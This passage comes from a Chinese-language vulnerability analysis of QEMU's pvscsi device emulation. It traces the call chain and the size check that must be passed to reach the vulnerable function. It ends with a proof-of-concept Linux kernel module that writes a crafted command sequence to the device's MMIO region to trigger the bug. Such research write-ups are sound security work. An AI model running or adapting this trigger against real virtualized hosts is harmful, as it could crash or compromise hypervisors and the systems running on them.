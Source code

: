 但是当我们给 s->curr_cmd 赋值为 8 的时候依然无法调用到漏洞函数，这里是因为 pvscsi_do_command_processing 函数里面还有一个检测，这里可以看到需要 bytes_arrived 大于等于 pvscsi_commands[s->curr_cmd].data_size，然后在动调的时候可以看到 pvscsi_commands[s->curr_cmd].data_size 的值为 136，然后 s->curr_cmd_data_cntr 的值在每一次调用 pvscsi_on_command_data 函数的时候都会加 1，所以也就是说我们需要调用 136 / 4 = 34 次 pvscsi_on_command_data 函数才可以使得 bytes_arrived 大于等于 pvscsi_commands[s->curr_cmd].data_size，从而调用到漏洞函数

```
size_t bytes_arrived = s->curr_cmd_data_cntr * sizeof(uint32_t);

if (bytes_arrived >= pvscsi_commands[s->curr_cmd].data_size) {
    s->reg_command_status = pvscsi_commands[s->curr_cmd].handler_fn(s);
    .........
}

```

现再我们已经知道了漏洞调用链，还有相关的 check 怎么绕过，所有的准备工作都已经做好了，下面就是需要来分析一下具体代码应该怎么写了

第一步就是要现设置 s->curr_cmd 的值为 8

第二步调用 34 次 pvscsi_on_command_data 函数，每次写的 val 都写的大一些最后第 34 次调用的时候就可以触发到漏洞函数

这里还有一点需要注意一下，就是如果选择了 pvscsi_ring_init_msg 函数作为最后要触发的函数的话，这个函数里面有一行代码会根据我们输入的 val 计算一个值存在 len_log2 里面，但是这里给它赋值是通过循环复制的，如果说我们每次写的 val 过大就会循环好久，所以我们的 val 也不能写的过大

POC

POC 代码如下：

```
#include <asm/io.h>
#include <linux/module.h>
#include <linux/ioport.h>
#include <linux/random.h>

#define PVSCSI_REG_OFFSET_COMMAND_DATA 4

uint64_t pmem;

static void poc(void){
    printk("Hacking\n");

    pmem = ioremap(0xfebf0000,0x8000);

    int i=0;

    writel(0x8,pmem);
    for(i=0;i<34;i++){
        writel(0x100000,pmem+PVSCSI_REG_OFFSET_COMMAND_DATA);
    }
    iounmap(pmem);
    return;
}

static void exit(void){
    printk("Hacked By Resery\n");
    return;
}

module_init(poc);
module_exit(exit);

```
